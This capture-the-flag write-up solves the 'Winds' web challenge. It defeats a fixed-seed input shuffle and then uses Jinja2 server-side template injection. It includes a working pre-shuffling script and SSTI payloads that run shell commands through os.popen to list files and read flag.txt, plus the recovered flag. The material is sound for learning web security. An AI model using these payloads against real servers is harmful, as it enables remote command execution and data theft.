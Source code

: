 # Winds

## Description
```
Challenge: https://winds.web.actf.co/
```

## Provided Files
```
- app.py
```

## Writeup

Starting off, I inspected the provided `app.py` file. <br/>
The vulnerability I found inside was `missing input sanitization` on the input of the used `template`. <br/>
This would create a `Server-Side-Template-Injection` vulnerability which can be used to execute shell-code on the server. <br/>
The challenge hereby would be to bypass the `jumbling` of our input. <br/>
```py
random.seed(0)
jumbled = list(text)
random.shuffle(jumbled)
jumbled = ''.join(jumbled)
```

Knowing the seed used in the randomization, we can predict the exact output of our input. <br/>
If we can predict it we can insert a malicious payload to execute `SSTI`. <br/>
To test my guess I used a simple `template injeciton` using `{{config}}`. <br/>
The reversed version of it would be `gcinfo}{{}` which I reversed manually. <br/>

The result of the `SSTI` can be seen below. <br/>
```sh
Your voice echoes back: <Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}> 
```

Knowing that it works I wrote a small python script which automates the `pre-jumbling` process. <br/>
```py
import random

# string with known chars to reverse indexes
empty = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"§$%&/()=?*+~-_#.:,;[]{}ß@`´^°öäü'


# "randomly" jumble input
def get_jumbled(text):
    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    return ''.join(jumbled)

# allocate characters to certain positions in order to reverse it after jumble
def get_alloc(length):
    alloc = {}

    for i, char in enumerate(empty[:length]):
        alloc[char] = i

    return alloc


## SSTI input to generate pre-jumbled exploit 
ssti = '{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat flag.txt").read()}}'

## Used payloads:
# Payloads from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python

## Check if SSTI works
# {{config}}
# gcinfo}{{}
# {{"".__class__.__mro__[1].__subclasses__()}}
# "_)_u_sccb_{sa__(1le_as.}s}r._s__{[o_.]l"m_s

## List files
# {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls").read()}}
# iTc_c)_els_eeltc_"oaals_fi.s_r.ep(t_(xrposoet).mn}oeR}p_ry_fe.a_ldb{c.nene"l{gel_..nte

## Read flag
# {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("cat flag.txt").read()}}
# a.e._)ee{ccsafeimt r_n_{ngptcc_il(ys.nrtoa"xl)oRl}_el}eps__e(.apxde_f_.l.c"tfetaorg.ene.__tToblt



jumbled = get_jumbled(empty[:len(ssti)])
# print(jumbled)

alloc = get_alloc(len(ssti))
# print(alloc)


## -- generate dictionary with correct index-positions --

out = {}

for i, char in enumerate(jumbled):
    out[str(alloc[char])] = ssti[i]


# -- Generate pre-jumbled ssti from allocation dictionary --

result = ''

for i in range(len(ssti)):
    result += out[str(i)]

print(result)
```

The script essentially uses a known string `0123456789abcdefghijklmnopqrstuvwxyz...` to remember the positions of changed characters. <br/>
The `SSTI` input will then use these known positions to rearrange the `SSTI-payload` correctly. <br/>
Using the payloads above from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) I was able to exploit the server and obtain the flag `actf{2cb542c944f737b85c6bb9183b7f2ea8}` and concludes this writeup.